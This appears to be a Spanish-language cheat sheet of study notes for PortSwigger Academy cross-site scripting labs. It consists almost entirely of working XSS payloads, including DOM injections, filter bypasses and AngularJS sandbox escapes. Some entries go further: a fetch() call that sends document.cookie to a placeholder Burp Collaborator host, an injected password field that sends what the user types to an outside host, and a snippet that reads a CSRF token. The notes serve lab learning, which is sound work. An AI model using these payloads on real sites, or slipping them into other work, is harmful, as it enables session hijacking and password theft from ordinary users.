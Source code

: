 # 🧠 Apuntes XSS – PortSwigger Academy

---

## 🔹 1. Reflected XSS sin codificación (HTML context)

```
<script>alert("oh no")</script>
```

---

## 🔹 2. Stored XSS sin codificación (HTML context)

```
<script>alert("oh no")</script>
```

---

## 🧠 DOM-based XSS

### 🔹 3. `document.write()` usando `location.search`

```
"><script>alert(1)</script>
"><svg onload=alert(1)>
```

---

### 🔹 4. `document.write()` dentro de `<select>`

- Vulnerabilidad en `storeId`

```
?storeId="></select><img src=1 onerror=alert(1)>
```

**JS vulnerable:**

```
var store = new URLSearchParams(location.search).get('storeId');
document.write('<select name="storeId">');
if (store) {
  document.write('<option selected>' + store + '</option>');
}
for (var i = 0; i < stores.length; i++) {
  if (stores[i] === store) continue;
  document.write('<option>' + stores[i] + '</option>');
}
document.write('</select>');
```

---

### 🔹 5. innerHTML + location.search

```
<img src=1 onerror=alert(1)>
```

---

### 🔹 6. jQuery + innerHTML

```
<img src="1" onerror="alert(1)">
```

---

### 🔹 7. jQuery selector + hashchange

```
#"><img src=x onerror=alert(1)>
```

---

### 🔹 8. AngularJS expression (con `ng-app`)

```
{{constructor.constructor('alert(1)')()}}
```

---

## 🧪 Exploits prácticos

### 🔹 9. Reflected DOM XSS con JSON

```
{"searchTerm":"\"-alert(1)}//", "results":[]}
```

---

### 🔹 10. Stored DOM XSS

```
<script>alert(1)</script>
<img src=1 onerror=alert(2)>
<><img src=1 onerror=alert(2)>
```

---

### 🔹 11. Robar cookies con XSS

```
fetch('https://your-subdomain.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
```

---

### 🔹 12. Captura de contraseñas

```
<input type=password onchange="if(this.value)fetch('https://your-subdomain',{method:'POST',body:this.value})">
```

---

### 🔹 13. XSS para CSRF

```
document.querySelectorAll('input[name=csrf]')[0].value;
```

---

### 🔹 14. Reflected XSS con etiquetas/eventos limitados

Enumerar con Burp Intruder:

```
<body onresize=alert(1)>
```

---

### 🔹 15. Solo custom tags permitidas

```
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

---

### 🔹 16. XSS sin `script`, `alert`, ni `onload`

```
<svg><a><animate attributeName="href" values="javascript:alert(1)" /></a></svg>
```

---

### 🔹 17. SVG parcialmente permitido

```
<svg><animatetransform onbegin=alert(1)>
```

---

### 🔹 18. XSS en atributo `placeholder`

```
" onclick="alert(1)
```

---

### 🔹 19. Stored XSS en `href` de `<a>`

```
" onclick="alert(1)
```

---

### 🔹 20–24. Reflected XSS en `JavaScript String`

```
</script><script>alert(1)</script>
'-alert(1)-'
'+alert(1)+'
```

---

## 🔥 Avanzado

### 🔹 25. Reflected XSS en `javascript:` con caracteres bloqueados

```
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

---

### 🔹 26. Stored XSS en `onclick` codificado

```
http://foo?&apos;-alert(1)-&apos;
```

---

### 🔹 27. Template literal + Unicode escaping

```
${ alert(1) }
```

---

### 🔹 28. AngularJS sandbox escape sin strings

```
{{constructor.constructor('alert(1)')()}}
```

Alternativa con `fromCharCode`:

```
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}
```

---

**Referencias útiles:**
- https://portswigger.net/web-security/cross-site-scripting
- https://github.com/swisskyrepo/PayloadsAllTheThings
